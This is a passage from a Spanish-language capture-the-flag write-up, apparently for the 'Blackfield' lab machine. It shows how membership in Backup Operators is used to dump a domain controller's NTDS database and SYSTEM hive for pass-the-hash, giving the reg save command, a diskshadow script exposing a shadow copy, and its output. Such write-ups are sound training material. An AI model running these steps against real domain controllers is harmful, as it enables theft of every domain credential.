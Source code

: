 Enumerando los grupos a los que pertenece este usuario, se puede observar que pertenece a *Backup Operators*, por lo que es posible dumpearse el ntds y el system y hacer PassTheHash

```null
Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Para obtener el system, basta con hacer una copia desde el registro

```null
reg save HKLM\SYSTEM system.bak
```

Para el ntds, hay que utilizar robocopy y diskshadow

Hay que crear un fichero con el siguiente contenido, que se encargará de crear una unidad lógica en la que sí sea posible copiar el ntds, ya que desde C: no se puede.

```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

Este mismo fichero se procesa con diskshadow

```null
*Evil-WinRM* PS C:\temp> diskshadow /s fichero.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/1/2020 1:30:41 AM

-> set context persistent nowriters
-> add volume c: alias pwn
-> create
Alias pwn for shadow ID {4aa7fb85-c839-4e4e-98e9-a949bfb83735} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7} set as environment variable.

Querying all shadow copies with the shadow copy set ID {bf423ef5-badb-4ae0-aa45-53ae68e595f7}

	* Shadow copy ID = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}		%pwn%
		- Shadow copy set: {bf423ef5-badb-4ae0-aa45-53ae68e595f7}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
		- Creation time: 9/1/2020 1:30:44 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %pwn% z:
-> %pwn% = {4aa7fb85-c839-4e4e-98e9-a949bfb83735}
The shadow copy was successfully exposed as z:\.
->
```

